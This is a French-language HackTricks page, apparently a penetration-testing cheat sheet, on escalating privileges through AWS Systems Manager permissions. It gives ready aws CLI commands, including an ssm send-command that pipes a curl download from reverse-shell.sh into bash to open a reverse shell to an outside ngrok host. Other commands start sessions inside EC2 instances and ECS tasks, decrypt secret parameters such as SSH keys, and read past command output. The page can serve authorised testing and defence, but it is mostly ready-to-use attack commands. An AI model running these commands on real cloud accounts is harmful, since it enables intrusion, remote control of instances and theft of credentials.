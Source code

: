 # AWS - Privilège d'escalade SSM

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## SSM

Pour plus d'informations sur SSM, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaquant ayant la permission **`ssm:SendCommand`** peut **exécuter des commandes dans les instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.

```bash
# Vérifier les instances configurées
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Envoyer une commande de shell inversé
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# Si vous êtes dans la machine, vous pouvez capturer le shell inversé à l'intérieur
nc -lvnp 4444 #À l'intérieur de l'instance EC2
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Impact potentiel :** Privilège d'escalade direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

### `ssm:StartSession`

Un attaquant ayant la permission **`ssm:StartSession`** peut **démarrer une session de type SSH dans les instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.

```bash
# Vérifier les instances configurées
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Envoyer une commande de shell inversé
aws ssm start-session --target "$INSTANCE_ID"
```

**Impact potentiel :** Privilège d'escalade direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

#### Privilège d'escalade vers ECS

Lorsque les **tâches ECS** s'exécutent avec **`ExecuteCommand` activé**, les utilisateurs disposant des autorisations suffisantes peuvent utiliser `ecs execute-command` pour **exécuter une commande** à l'intérieur du conteneur.\
Selon [**la documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), cela se fait en créant un canal sécurisé entre l'appareil que vous utilisez pour initier la commande "_exec_" et le conteneur cible avec SSM Session Manager.\
Par conséquent, les utilisateurs disposant de `ssm:StartSession` pourront **obtenir un shell à l'intérieur des tâches ECS** avec cette option activée en exécutant simplement :

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../.gitbook/assets/image (55).png>)

**Impact potentiel :** Privilège d'escalade direct vers les rôles IAM `ECS` attachés aux tâches en cours d'exécution avec `ExecuteCommand` activé.

### `ssm:ResumeSession`

Un attaquant ayant la permission **`ssm:ResumeSession`** peut **redémarrer une session de type SSH dans les instances** exécutant l'agent Amazon SSM avec un état de session SSM **déconnecté** et **compromettre le rôle IAM** s'exécutant à l'intérieur.

```bash
# Vérifier les instances configurées
aws ssm describe-sessions

# Obtenir les données de reprise (vous devrez probablement faire autre chose avec ces informations pour vous connecter)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Impact potentiel :** Privilège d'escalade direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution et des sessions déconnectées.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaquant disposant des autorisations mentionnées pourra lister les **paramètres SSM** et les lire en clair. Dans ces paramètres, vous pouvez souvent **trouver des informations sensibles** telles que des clés SSH ou des clés API.

```bash
aws ssm describe-parameters
# Supposons que vous avez trouvé un paramètre appelé "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Impact potentiel :** Trouver des informations sensibles dans les paramètres.

### `ssm:ListCommands`

Un attaquant disposant de cette autorisation peut lister toutes les **commandes** envoyées et espérer trouver des **informations sensibles** à leur sujet.

```
aws ssm list-commands
```

**Impact potentiel :** Trouver des informations sensibles dans les lignes de commande.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaquant disposant de ces autorisations peut lister toutes les **commandes** envoyées et **lire la sortie** générée, en espérant trouver des **informations sensibles** à leur sujet.

```bash
# Vous pouvez utiliser l'une ou l'autre des options pour obtenir l'ID de commande et l'ID d'instance
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Impact potentiel :** Trouver des informations sensibles dans la sortie des lignes de commande.

### Codebuild

Vous pouvez également utiliser SSM pour accéder à un projet codebuild en cours de construction :

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>